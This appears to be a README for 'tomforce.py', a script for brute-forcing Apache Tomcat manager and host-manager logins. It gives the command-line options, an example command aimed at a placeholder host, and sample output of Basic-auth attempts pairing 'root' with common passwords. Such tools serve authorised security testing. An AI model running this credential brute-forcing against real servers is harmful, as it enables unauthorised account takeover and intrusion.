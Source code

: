 A script that can be used to bruteforce the tomcat manager login page.

# Usage

Tomcat Manager or Host-Manager Credential Bruteforcing

options:

-h, --help                              show this help message and exit
-U URL, --url URL                       Base URL to the Tomcat page (e.g., http://target.com)
-P PATH, --path PATH                    Manager or host-manager URI (e.g., /host-manager/html)
-u USERNAMES, --usernames USERNAMES     Path to file containing usernames
-p PASSWORDS, --passwords PASSWORDS     Path to file containing passwords
-v, --verbose                           Enable verbose output to see attempted credentials and encoded values
-r RATE_LIMIT, --rate-limit RATE_LIMIT  Delay in seconds between requests (e.g., 0.5 for half a second)
                        
# Example

python3 tomforce.py -U https://example.com -P /host-manager -u usernames.txt -p passwords.txt -v

[+] Starting Brute-force Attack...                                                                        
[*] Trying root:123456 → Encoded: cm9vdDoxMjM0NTY= → HTTP 401                                                                
[*] Trying root:admin → Encoded: cm9vdDphZG1pbg== → HTTP 401                                                                 
[*] Trying root:12345678 → Encoded: cm9vdDoxMjM0NTY3OA== → HTTP 401                                                          
[*] Trying root:123456789 → Encoded: cm9vdDoxMjM0NTY3ODk= → HTTP 401                                                         
[*] Trying root:1234 → Encoded: cm9vdDoxMjM0 → HTTP 401                                                                      
[*] Trying root:12345 → Encoded: cm9vdDoxMjM0NQ== → HTTP 401                                                                 
[*] Trying root:password → Encoded: cm9vdDpwYXNzd29yZA== → HTTP 401                                                          
[*] Trying root:123 → Encoded: cm9vdDoxMjM= → HTTP 401                                                                       
[*] Trying root:Aa123456 → Encoded: cm9vdDpBYTEyMzQ1Ng== → HTTP 401                                                          
[*] Trying root:1234567890 → Encoded: cm9vdDoxMjM0NTY3ODkw → HTTP 401                                                        
[*] Trying root:UNKNOWN → Encoded: cm9vdDpVTktOT1dO → HTTP 401                                                               
[*] Trying root:1234567 → Encoded: cm9vdDoxMjM0NTY3 → HTTP 401                                                               
[*] Trying root:123123 → Encoded: cm9vdDoxMjMxMjM= → HTTP 401                                                                
[*] Trying root:111111 → Encoded: cm9vdDoxMTExMTE= → HTTP 401                                                                
[*] Trying root:Password → Encoded: cm9vdDpQYXNzd29yZA== → HTTP 401
